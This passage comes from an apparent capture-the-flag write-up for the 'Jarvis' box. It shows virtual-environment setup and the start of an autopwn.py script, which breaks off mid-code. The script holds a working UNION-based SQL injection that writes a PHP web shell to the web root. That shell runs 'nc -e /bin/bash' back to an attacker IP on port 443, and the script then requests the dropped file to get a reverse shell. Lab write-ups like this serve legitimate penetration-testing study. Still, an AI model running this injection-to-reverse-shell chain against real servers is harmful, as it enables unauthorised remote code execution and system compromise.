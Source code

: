 <br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/jarvis_writeup/Jarvis_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Together with the **[hack4u](https://hack4u.io/){:target="_blank"}** community, we were able to create a tool written in **Python** that automates the first phase of **engagement** of the box. In my case, I had to solve some problems with deprecated libraries (**pwn**) that **Linux** would not allow me to install on the system, so I had to set up a virtual **Python** environment and then develop the tool. In order for the tool to succeed in achieving its objective, I took advantage of **SQLi** exploitation, so I only had to analyze the request sent to the server to find out the name of the script responsible for the logic related to room booking, as well as which parameters and data are sent. Once the scripting phase was complete, I was able to run the tool and obtain an **interactive shell**.

```bash
nvim autopwn.py
python3 autopwn.py
# No module named 'pwn'

pip3 install pwn
# error: externally-managed-environment
python3 -m venv ./
./bin/pip3 install pwn
cat autopwn.py
```

> **autopwn.py**:

```python
#!/usr/bin/python3

from pwn import *
import requests, sys, signal, time
import threading

def def_handler(sig,frame):
    print("\n\n[!] Exiting ...\n")
    sys.exit(1)

# Ctrl+c
signal.signal(signal.SIGINT, def_handler)

# Global Variables
sqli_url = '''http://10.10.10.143/room.php?cod=-1 union select 1,2,"<?php system('nc -e /bin/bash 10.10.14.3 443'); ?>",4,5,6,7 into outfile "/var/www/html/reverse.php"'''
rce_url = "http://10.10.10.143/reverse.php"
lport = 443

def makeRequest():

    r = requests.get(sqli_url)
    r = requests.get(rce_url)

if __name__ == '__main__':

    try:
        threading.Thread(target=makeRequest, args=()).start()
    except Exception as e:
```